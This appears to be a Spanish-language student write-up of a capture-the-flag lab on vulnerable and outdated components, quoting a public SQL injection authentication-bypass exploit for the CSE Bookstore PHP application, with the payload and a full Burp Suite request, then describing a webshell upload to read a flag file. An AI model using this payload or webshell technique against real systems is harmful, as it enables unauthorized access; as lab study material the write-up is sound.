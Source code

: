 ```yaml
---
layout: apunte
title: "15. Vulnerable and Outdated Components - Lab"
---
```


1. Navegamos a la página dada.
   !**Pasted image 20251011134021.png**
2. Buscamos por aplicaciones de tienda de libros (bookstore application):
   !**Pasted image 20251011134917.png**
3. El código que encontramos tiene ejemplo tanto por web como usando Burp Suite:
   ```bash
# Exploit Title: CSE Bookstore Authentication Bypass
# Date: 27/10/2020
# Exploit Author: Alper Basaran
# Vendor Homepage: https://projectworlds.in/
# Software Link: https://github.com/projectworlds32/online-book-store-project-in-php/archive/master.zip
# Version: 1.0
# Tested on: Windows 10 Enterprise 1909


CSE Bookstore is vulnerable to an authentication bypass vulnerability on the admin panel. 
By default the admin panel is located at /admin.php and the administrator interface can be accessed by unauthorized users exploiting the SQL injection vulnerability.

Payload: 
Name: admin
Pass: %' or '1'='1 

Sample BurpSuite intercept:

POST /bookstore/admin_verify.php HTTP/1.1
Host: 192.168.20.131
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 60
Origin: http://192.168.20.131
Connection: close
Referer: http://192.168.20.131/bookstore/admin.php
Cookie: PHPSESSID=hmqnib0ihkvo235jor7mpfoupv
Upgrade-Insecure-Requests: 1

name=admin&pass=%25%27+or+%271%27%3D%271&submit=Submit+Query
```

4. Probamos:
   !**Pasted image 20251011135154.png**
5. La contraseña funciona:
   !**Pasted image 20251011135812.png**
6. Buscamos más vulnerabilidades, ya que necesitamos acceder a `/opt/flag.txt`.
   !**Pasted image 20251011140737.png**
7. El ejecutable nos lanza un error:
   !**Pasted image 20251011143426.png**
8. Como el código no funciona a pesar de modificarlo lo leemos y vemos que está insertando una webshell en la imagen, por lo que vamos a hacerlo manualmente desde la página vulnerada de admin:
   !**Pasted image 20251011142510.png**
9. Activamos Burp Suite:
   !**Pasted image 20251011143810.png**
10. Cambiamos el valor de la imagen:
    !**Pasted image 20251011144637.png**
11. Vemos desde donde se están cargando las fotos:
   !**Pasted image 20251011143332.png**
12. Intentamos cargar la consola php:
    !**Pasted image 20251011144924.png**
13. Obtenemos la flag
    !**Pasted image 20251011145025.png**

